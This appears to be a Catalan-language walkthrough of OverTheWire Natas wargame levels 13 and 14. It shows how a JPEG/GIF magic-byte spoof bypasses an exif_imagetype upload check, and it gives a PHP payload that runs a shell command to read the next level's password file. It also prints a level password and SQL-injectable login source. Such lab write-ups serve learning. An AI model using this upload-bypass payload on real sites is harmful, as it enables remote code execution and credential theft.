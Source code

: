 
    Veiem que és mes o menys igual que l'anterior, però ara comprova si és un fitxer JPEG.
    Veiem que la funció que ho comprova és "exif_imagetype", per tant, esta utilitzant 'exif'.
    Exif són les metadades de les imatges.

    Fent una prova amb una imatge (per exemple: exiftool photo.jpeg), veig que ens mostra molts 'fields' útils:
    "File size, File Type, File Type Extension, MIME Type, etc"
    Tots els possibles: https://exiftool.org/TagNames/EXIF.html

    Per tant, crec que podem canviar l'imagetype perquè ens ho pilli com un fitxer php i poder executar el nostre codi.
    Per fer-ho, busco sobre els 'Magic Numbers', que són simplement els primers bytes d'un fitxer per identificar de quin tipus són.
    
    Per trobar + info de la imatge:
        file photo.jpg               
        photo.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, segment length 16, progressive, precision 8, 2392x2500, components 3
    Per trobar els primers bytes:
        xxd photo.jpg | head
        00000000: ffd8 ffe0 0010 4a46 4946 0001 0101 0048  ......JFIF.....H
    Tenim que els fitxers '.jpg', començen amb aquests bytes.

    Provem a fer una prova en local de modificar un fitxer:
    (creen un fitxer .txt i li apliquem aquest contingut, on podem comprovar que ens detecta com si fos un GIF).

        echo -n -e 'GIF87a' > file.txt
        file file.txt 
        file.txt: GIF image data, version 87a,

    
    Modifiquem el nostre fitxer perquè la web s'ho tragui i ara tenim:

        GIF8;
        <?php
        echo(exec('cat /etc/natas_webpass/natas14'));
        ?>


#  NATAS 14

    Username: natas14
    Password: qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
    URL:      http://natas14.natas.labs.overthewire.org

    <h1>natas14</h1>
    <div id="content">
    <?php
    if(array_key_exists("username", $_REQUEST)) {
        $link = mysqli_connect('localhost', 'natas14', '<censored>');
        mysqli_select_db($link, 'natas14');
        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }
        if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
                echo "Successful login! The password for natas15 is <censored><br>";
        } else {
                echo "Access denied!<br>";
        }
        mysqli_close($link);
    } else {
    ?>
    <form action="index.php" method="POST">
    Username: <input name="username"><br>